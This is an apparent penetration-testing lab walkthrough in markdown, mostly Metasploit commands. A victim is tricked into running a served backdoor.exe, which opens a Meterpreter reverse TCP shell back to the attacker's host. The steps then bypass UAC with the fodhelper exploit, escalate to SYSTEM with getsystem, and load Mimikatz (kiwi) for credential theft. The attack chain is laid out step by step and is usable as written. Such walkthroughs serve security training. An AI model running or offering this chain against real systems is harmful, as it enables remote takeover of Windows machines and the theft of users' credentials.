 - Start Apache Server:
  ```bash
  service apache2 start
  ```

- Launch Metasploit:
   - Open a new Terminal and type:
   ```bash
   msfconsole
   ```

- Metasploit Configuration:
  - Configure Metasploit settings:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 10.10.1.13
   set LPORT 444
   run
   ```

- Victim Interaction:
  - Switch to Victim machine.
  - Open a browser and visit http://10.10.1.13/share.
  - Download and run the backdoor.exe.

- Exploit Successful:
  - Switch back to Attacker machine.
  - Meterpreter session established.
  - Retrieve system info: `sysinfo`.
  - Check current user ID: `getuid`.

- Bypass UAC Protection:
  - Background the current session: `background`.
  - Use FodHelper Registry Key exploit:
   ```bash
   use exploit/windows/local/bypassuac_fodhelper
   set session 1
   show options
   set LHOST 10.10.1.13
   set TARGET 0
   exploit
   ```

- Elevate Privileges:
  - Elevate to system privileges:
   ```bash
   getsystem -t 1
   ```

- Load Mimikatz:
  - Load Mimikatz in Metasploit console:
   ```bash
   load kiwi
   help kiwi
   ```
